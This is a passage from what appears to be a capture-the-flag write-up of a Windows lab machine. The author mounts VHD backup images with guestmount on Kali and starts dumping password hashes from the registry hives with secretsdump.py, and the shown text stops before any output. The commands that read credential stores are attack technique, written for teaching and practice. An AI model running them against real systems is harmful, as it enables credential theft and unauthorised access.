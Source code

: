 

I see two disk image vhd files.

#### Mount vhd

I'm going to mount the virtual disk files and see what I can find in
them. First, I'll install `guestmount` with
`apt install libguestfs-tools`, a [tool for mounting virtual hard disk
files](https://linux.die.net/man/1/guestmount) on Linux.

Now, I'll try to mount each of the two VHD files. The first one fails:



    root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
    guestmount: no operating system was found on this disk

    If using guestfish ‘-i’ option, remove this option and instead
    use the commands ‘run’ followed by ‘list-filesystems’.
    You can then mount filesystems you want by hand using the
    ‘mount’ or ‘mount-ro’ command.

    If using guestmount ‘-i’, remove this option and choose the
    filesystem(s) you want to see by manually adding ‘-m’ option(s).
    Use ‘virt-filesystems’ to see what filesystems are available.

    If using other virt tools, this disk image won’t work
    with these tools.  Use the guestfish equivalent commands
    (see the virt tool manual page).



The second one works, providing access to what looks like a Windows file
system root:



    root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
    root@kali# ls /mnt2/
    '$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows



## Shell as l4mpje

### Dump Hashes From Registry

With full access to the file system, I have access to the registry
files. These files can be locked when the system is running, but I won't
have that issue on a mounted drive. In the `config` directory where the
registry hives are stored, I'll use `secretsdump.py` to dump the
password hashes:



    root@kali:/mnt2/Windows/System32/config# secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
